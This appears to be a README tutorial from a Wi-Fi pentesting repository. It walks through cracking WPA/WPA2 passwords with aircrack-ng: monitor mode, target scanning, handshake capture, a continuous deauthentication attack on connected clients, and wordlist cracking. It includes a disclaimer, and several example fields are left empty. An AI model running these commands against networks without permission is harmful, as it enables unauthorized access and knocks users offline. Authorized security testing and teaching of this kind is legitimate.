






# Wi-Fi Cracking Tutorial: WPA/WPA2 Cracking with Aircrack-ng

## Introduction
This the next part of https://github.com/Officerwasu/Wi-Fi_pentesting 

Read that first.

**Disclaimer:** *This tutorial is for educational purposes only. Attempting to crack Wi-Fi networks for which you do not have explicit permission is illegal and unethical. Always respect privacy and operate within legal boundaries.*


## Prerequisites
List what the user needs before they start:
* **Hardware:**
    * Wireless network adapter capable of monitor mode and packet injection.   
* **Software:**
    * Any linux distro with sudo permissions.
    * aircrack-ng suite

## Setup
Instructions for any initial setup:
1.  Installing necessary tools.
    ```bash
    sudo apt update && sudo apt install aircrack-ng
    ```
2.  Ensuring your wireless adapter is recognized and can be put into monitor mode.
    * `ifconfig`
    * `ifconfig [wireless interface, eg wlan0]`
       * Example: 
    * `sudo airmon-ng start wlan0`
       * Example: 

## Tutorial Steps

### Step 1: Scanning for Target Networks
1. `sudo airodump-ng wlan0`
2.  It will show you all the wifi networks in your vicinity
3.  What to look for BSSID, CH, ESSID of the target network.
     * Example: 
    

### Step 2: Capturing the Handshake
1.  `sudo airodump-ng -c [channel] --bssid [BSSID] --write capture wlan0`.
    * Example: 
      
2.  (Optional) Deauthenticating a client to speed up handshake capture.
    * `sudo aireplay-ng --deauth 0 -a [BSSID] wlan0`
        * Example:
        * 

### Step 3: Cracking the Password
Brute-force attack.
1.  Using Aircrack-ng with a wordlist:
    *`aircrack-ng [capturefile.cap] -w [path to wordlist]`.
    * Example: 


### Step 4: [Cleanup]
1.  Well we found the key
2.  `sudo airmon-ng stop wlan0` and `sudo sservice NetworkManager restart`
     * Example: 

        
